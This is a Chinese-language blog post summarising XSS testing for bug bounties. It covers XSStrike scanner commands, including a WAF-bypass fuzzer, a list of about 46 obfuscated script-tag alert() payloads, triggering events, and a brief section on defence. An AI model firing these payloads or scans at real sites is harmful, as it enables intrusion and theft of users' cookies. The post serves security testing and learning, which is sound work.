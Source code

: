 ```yaml
---
layout: post
title:  "XSS小结"
subtitle: '一个web安全研究员-XSS'
date:   2021-04-01 18:00:00
tags: WEB安全 XSS
description: 'WEB安全 XSS'
color: 'rgb(0,191,255)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/4-1.jpg'
---
```


## 前言

最近想刷刷国外的src，而批量扫xss是一个不错的选择，一番搜索下发现了一些有趣的项目，写文记录下。

## xss能干什么

- 获取受害者的cookie
- 创建诱导钓鱼页面
- 恶意页面重定向
- 修改篡改web页面
- 引用恶意JS脚本（如键盘记录）
- XSS蠕虫

## 一个开源的XSS扫描器

XSStrike

一个基于python3的xss扫描器，使用下来感觉一般吧

这里记录下使用命令

- get 请求跳过dom型查询
  python3 xsstrike.py -u "http://example.com/search.php?q=query" --skip-dom

- post请求 跳过dom型
  python3 xsstrike.py -u "http://example.com/search.php?q=query" --skip-dom --data "q=query"
  python3 xsstrike.py -u "http://example.com/search.php?q=query" --skip-dom --data '{"q":"query"} --json'

- 自动
  python3 xsstrike.py -u http://example.com/page.php?q=query --crawl --blind

- 绕waf
  python3 xsstrike.py -u "http://example.com/search.php?q=query" --fuzzer

  


## XSS Fuzz的艺术

xss fuzz常常在于模糊测试时非常有用，而XSS的payload往往有几个方面组成，那么我们完全可以批量生成我们的测试payload，然后使用burp或者其他工具对某些输入点进行Fuzz



1、常用标签

2、常用事件

3、payload

4、其他标签

5、编码

6、前缀

7、特殊payload

简单总结了一下也就如上一些方面，那么通过这些组合，我们就可以生成我们自己常用的payload列表

这里就要讲一下[XSS-Fuzz](https://github.com/WangYihang/XSS-Fuzz.git)这个项目了，作者总结了很多标签及事件的用法，但是由于不同事件与标签的适配性，还有事件触发条件等，这些需要重新整理。而XSStrike则是通过插入到页面中进行判断的，而我这里比较想实现的方式是直接输入大批量的patyload的，然后看哪个payload能用实在。当然更专业的检测还是通过返回包判断的方式

还有一些payload需要低版本的IE浏览器才能支持，这里就不在做考虑了。

思路呢就是先筛选可执行的js弹窗的各种payload，然后在结合各种标签事件，加编码即可

首先去简单收集了下payload，结果如下

```html
<script>alert('1')</script>
<script>javascript:window.onerror = alert(2);</script>
<script>javascript:alert('3');</script>
<script>(alert)(4)</script>
<script>a=alert,a(5)</script>
<script>[6].find(alert)</script>
<script>top["al"+"ert"](7)</script>
<script>top[/al/.source+/ert/.source](8)</script>
<script>al\u0065rt(9)</script>
<script>top['al\145rt'](10)</script>
<script>top['al\x65rt'](11)</script>
//parseInt('alert',30) 
//8680439..toString(30)
<script>top[11189117..toString(32)](12)</script>
<script>top.alert(13)</script>
<script>`${alert(14)}`()</script>
<script>(alert(15))</script>
<script>eval('~a~le~rt~~(~~16~~)~'.replace(/~/g, ''))</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,55,41))</script>
<script>var x=eval;x('alert(18)')</script>
<script>(1, eval)('alert(19)')</script>
<script>new Function('alert(20)')()</script>
<script>eval.call(null, 'alert(21)')</script>
<script>prompt(22)</script>
<script>confirm(23)</script>
<script>alert(String.fromCharCode(50, 52))</script>
<script>console.log(24)</script>
<script>self['al'+'ert'](25)</script>
<script>window['al'+'ert'](26)</script>
<script>frames['al'+'ert'](27)</script>
<script>parent['al'+'ert'](28)</script>
<script>(function(){alert(29)})()</script>
<script>!function(){alert(30)}()</script>
<script>~function(){alert(31)}()</script>
<script>-function(){alert(32)}()</script>
<script>+function(){alert(33)}()</script>
<script>javascript:[''].findIndex(alert(34))</script>
<script>location=['javascript:alert(35)']</script>
<script>Function(alert(36))()</script>
<script>data:alert(37)</script>
<script>$:alert(38)</script>
<script>$:{alert(39)}</script>
<script>javascript:/*!90000*/alert('40');</script>
<script>javascript:alert/*!90000*/('41');</script>
<script>javascript:alert(/*!90000*/'42');</script>
<script>javascript:alert('43'/*!90000*/);</script>
<script>javascript:alert('44')/*!90000*/;</script>
<script>/*!90000*/javascript:alert('45');</script>
<script>javascript/*!90000*/:alert('46');</script>
```

可以看到各种payload还挺多的，不难发现几种变形规律

payload也大体分为两个方面
一个是js代码式
alert(1)
一个是需要指定触发方式
javascript:

:alert(1)前面加大多数字符都可以，除了约定不能以%、&等开头和运算符以外都可以

!、~、-、+遇到：会报错
;只能在开头
/**/、/*%00*/、/*90000*/ 不能在字符串中间

在函数体中充当字符串的可以使用各种类型编码

通过以上这些手段可以将payload列表在扩充，不过其实也没太多必要，一般一种形式来一个，过了就过了，没过就算了。毕竟xss好多都不收。。
还有可以去看一看这个项目[白帽赏金平台xss漏洞模糊测试有效载荷的最佳集合](https://github.com/Deep0/XSS_Cheat_Sheet_2020_Edition),总结的很全面。


其次呢就是各种事件，事件种类大致分类可以参考javascript的官方文档或者github的项目

测试了一下平时比较好触发的事件如下

```
onloadstart 
onerror
onprogress 
onsuspend 
ondurationchange 
onloadedmetadata 
onloadeddata 
oncanplay 
oncanplaythrough 
onmouseover
onmousemove
onmouseout
onload
onfocus
```

接下来就是选择标签了，其实标签挺多的，而且大部分都还支持各类事件。重点是某些标签，在网上查询是不支持触发事件的，其实是需要我们测试后才能确定的，可以平时收藏一些不常见的标签，例如object的type等

有了标签，有了事件，有了payload。那么我们写个脚本组合一下就能有大量的payload的方便我们进行fuzz了

生成效果如下

![image-20210415205353155](D:\KIDICC资料库\MD图库\XSS\image-20210415205353155.png)



最后把payload乱序一下，排个编号。芜湖，大功告成。处理完的结果放在github了，有需自取。



## xss的防御

现在xss的防御也挺简单的，只需要把输入输出都进行过滤即可。写文章的时候想到了一个问题，输入转义和输出转义可以完全防止XSS攻击吗？当然是不能的，一个是因为有些paylaod可能就不带实体编码的那几个字符，另外一个方面呢在一些情况下，因为可能仅仅只是输入过滤了，或仅仅是输出过滤了，又或者输出过滤只考虑了输入页面的点。如这个页面输出过滤了，其他地方加载时没有过滤，就也有可能存在问题。

最后，深入研究一个技术确实挺快乐的~